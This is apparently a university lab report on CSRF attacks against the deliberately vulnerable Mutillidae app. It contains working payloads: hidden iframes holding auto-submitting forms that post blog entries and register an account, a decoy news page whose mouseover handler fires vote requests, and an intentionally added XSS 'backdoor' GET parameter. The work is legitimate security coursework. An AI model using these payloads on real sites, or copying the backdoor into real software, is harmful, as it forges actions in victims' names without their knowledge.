# CSRF-Attack


**BBM459**

**Secure Programming Laboratory**

**CSRF ATTACK Assignment**

Sefa Karabaş

**Description**

In this assignment, I covered CSRF attacks as a topic. In this context, I took advantage of the CSRF Vulnerability by forcing the user without knowing anything while doing my attacks. I have organized a breaking news website so that the user is not aware of the situation. There are 3 current news on the website. When the user clicks on each of these news, he/she performs the attacks specified in Experiment 1.![ref1]

**Experiment 1**

My website view



- ***Page for adding a blog entry: A new blog entry is going to be added to the users blog with an HTTP POST request. Result of the attack is going to be validated from View Blogs (from Mutillidae) link.***

My website view when the user clicks on the first news


Solution

When the user clicks on the first news, the addNewBlog.php file that I wrote runs in the background. The addNewBlogScript.php file, which is another file I wrote, is called through the iframe I embedded in this file. The reason why I used an iframe was that when I sent a request to add a new blog, I did not want the interface to appear in the response of the outgoing request. Thanks to the Iframe, I keep the user unaware of the situation because the returning website stays only in that frame and I turn off the display of that frame.

By adding a blog through the interface, I tried out which request I should send and realized I needed to submit a form. You can see the network flow of the request I sent from the interface in the Network section below. Looking at this Network flow, I added this form data into the addNewBlogScript.php file and submitted that form as soon as this code worked.

I added the "hacked from addNewBlog successfully!" text to the block as a result of my POST request. You can see it in the Proof section.

Network



Form Data for Attack:


Code

addNewBlogScript.php

```
  <html>
  
  <body>
  
  <form id="addToBlogFrom" method="post" action="http://192.168.1.41/mutillidae/index.php?page=add-to-your-blog.php"> <input name="csrf-token" value="" />
  
  <textarea name="blog\_entry">hacked from addNewBlog successfully!</textarea> <input name="add-to-your-blog-php-submit-button" value="Save Blog Entry" /> </form>
  
  <script>
  
  document.addEventListener('DOMContentLoaded', function () { document.getElementById('addToBlogFrom').submit();
  
  }, false);
  
  </script>
  
  </body>
  
  </html>
```


Proof![ref2]



- ***Page for registering a new user: A new user is going to be registered to the system with an HTTP POST request. Result of the attack is going to be validated from login page (from Mutillidae).***

My website view when the user clicks on the second news



Solution

When the user clicks on the second news, the registerUser.php file that I wrote runs in the background. The registerUserScript.php file, another file I wrote via iframe, which I also use when adding a new blog, is called into this file. The reason I used an iframe was that, as I mentioned before when I sent a request to add a new block, I did not want the interface to appear in the response of the outgoing request. Thanks to the Iframe, I keep the user unaware of the situation because the returning website stays only in that frame and I turn off the display of that frame.

I tested which request I should send by registering a new user through the interface and I understood that I had to submit a form. The Network section below shows the Network flow of the request I sent from the interface. Looking at this Network flow, I added this form data into the registerUserScript.php file and submitted that form as soon as this code worked.

As a result of my POST request, the user I added, hackedUser, was registered. You can check it out in the proof section.

Network



Code

registerUserScript.php

```
  <html>
  
  <body>
  
  <form id="registerUserFrom" method="post" action="http://192.168.1.41/mutillidae/index.php?page=register.php"> <input name="csrf-token" value="" />
  
  <input name="username" value="hackedUser"/>
  
  <input name="password" value="hackedUser"/>
  
  <input name="confirm\_password" value="hackedUser"/>
  
  <textarea name="my\_signature" value="created from registerUserScript">hackedUser</textarea>
  
  <input name="register-php-submit-button" value="Save Blog Entry"/> </form>
  
  <script>
  
  document.addEventListener('DOMContentLoaded', function() { document.getElementById('registerUserFrom').submit();
  
  }, false);
  
  </script>
  
  </body>
  
  </html>

```

Proof![ref1]


- ***Page for voting: Voting for a security tool is going to be performed. You are going to perform attacks with both HTTP GET and POST requests. Also JavaScript is going to be used through onmouseover event. Result of the attack is going to be validated from View Log (from Mutillidae) link.***

My website view when the user clicks on the third news before hover


My website view when the user clicks on the third news after hover


Solution

When the user clicks on the last news, the voting.php file I wrote runs in the background. When the user moves his mouse over the “***HOVER TO SEE SALARY***” section, the salary appears and the hack function I wrote in the voting.php file starts running in the background. This time, unlike the others, I didn't need to embed an extra iframe because this time, it was enough to just send the request since the requests I made did not return an interface.

By adding a blog via the interface, I was able to test which request I should make and confirm which URL I should request with which parameters. The Network section below lets you view the network flow of the request I sent from the interface. Using the fetch API in the voting.php file, I added these requests to the code after taking a look at the network flow, and as soon as this code was executed, I sent those fetch requests.

In accordance with my POST and GET requests, I voted nmap and tcpdump on the user's behalf. You can check it out in the proofs section.

Network



Code

```
  <html>
  
  <body class="hoverEffect">
  
  <div class="wrapper">
  
  <div class="buttonWrapper">
  
  <button type="submit" onclick="returnHome()">Return to Home Page</button>
  
  </div>
  
  
  
  <h1 class="title">RAISE NEWS!</h1>
  
  <div class="newsDetail">The government announced the civil servant salary as&nbsp; <span id="hoverToSee" class="hoverToSee">HOVER TO SEE SALARY</span>
  
  <span id="salary" class="salary">22000 TL.</span>
  
  </div>
  
  </div>
  
  <script>
  
  const hiddenPart = document.getElementById('hoverToSee')
  
  const salaryPart = document.getElementById('salaryPart')
  
  hiddenPart.addEventListener("mouseover", (event) => { hiddenPart.style.display = "none"; salary.style.display = "block";
  
  hack();
  
  });
  
  function hack() { fetch("http://192.168.1.41/mutillidae/index.php?page=user-poll.php&csrf-token=&" + "choice=nmap&initials=hackedtest&user-poll-php-submit-button=Submit+Vote",
  
  {
  
  method: "POST",
  
  }); fetch("http://192.168.1.41/mutillidae/index.php?page=user-poll.php&csrf-token=&" + "choice=tcpdump&initials=hackedtest&user-poll-php-submit-button=Submit+Vote",
  
  );
  
  }
  
  const returnHome = () => { location.assign('http://localhost:3000/index.php'); };
  
  </script>
  
  <style>
  
  .hoverToSee { text-decoration: underline; font-style: italic; font-weight: 700;
  
  }
  
  .hoverToSee:hover { cursor: pointer;
  
  }
  
  </style>
  
  </body>
  
  </html>
```


Proofs GET Request:



POST Request:



View Log:![ref2]



**Experiment 2**

1. *Add a new GET parameter to index.php of the Mutillidae Application. The new GET parameter should be printed to the index.php, and open to XSS attacks.*

Solution

In this part, I am asked to add a GET parameter to the index.php file in the Mutillidae Application so that the program is open to XSS attacks. I added the following code block to the starting session part of the index.php file.

Through this code block I added, I have made the program a way that I can run the script I want with the "backdoor" parameter. While examining the index.php code, I saw that the $\_GET code part was used when adding the parameters which I used in the previous tasks so I used this.

When I researched, I found out that there is a PHP super global variable that is used to collect form data after submitting an HTML form with $\_GET. In the Proof section below, you can see the "backdoor" parameter I used while testing and the result of the script I embedded.

Code



Proof![ref1]


2. *Set the Security Level to 1 and add some blog posts to analyze the POST and GET data. Report your observations in detail.*

Solution

In this part, I am asked to analyze the requests by adding a blog when the security level is zero and one. While the security level was zero, I analyzed the blog add request I sent from the network and saw that the "csrf-token" form variable was submitted empty. When I increased the security level to 1 and sent the same request again, I saw that the same form variable was replaced with the value 7777. When I increased the security level, the "csrf-token" value was changed to 7777 to prevent CSRF attacks because without the token, the attacker cannot send valid requests.

Network when the security level is 0


Network when the security level is 1![ref1]



3. *Create a GET request with an XSSattack and embed a script to index page. Remember to login beforehand.***

Solution

In this section, I embedded a PHP script in the URL with the backdoor parameter I created and added a blog to the user through this script. As mentioned above, I logged in before and since I logged in, I made a request by giving the value 7777 in the csrf-token parameter because as I mentioned above, this request would be invalid when the token variable was empty. Below you can see the URL part of the request I sent, the PHP code I embedded and the result.

XSS attack URL


Code
```
  <?php
  
  echo '
  
  <body>
  
  <form id="addToBlogFrom" method="post" action="http://192.168.1.41/mutillidae/index.php?page=add-to-your-blog.php"> <input name="csrf-token" value="7777" />
  
  <textarea name="blog\_entry">blog added from xss attack</textarea>
  
  <input name="add-to-your-blog-php-submit-button" value="Save Blog Entry" /> </form>
  
  <script>
  
  document.addEventListener("DOMContentLoaded", function () { document.getElementById("addToBlogFrom").submit();
  
  }, false);
  
  </script>
  
  </body>'
  
  ?>
```


Proof



[ref1]: ./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.002.png
[ref2]: ./report_images/Aspose.Words.46f5a025-114a-4e25-9707-e90ec6eae3a8.007.png
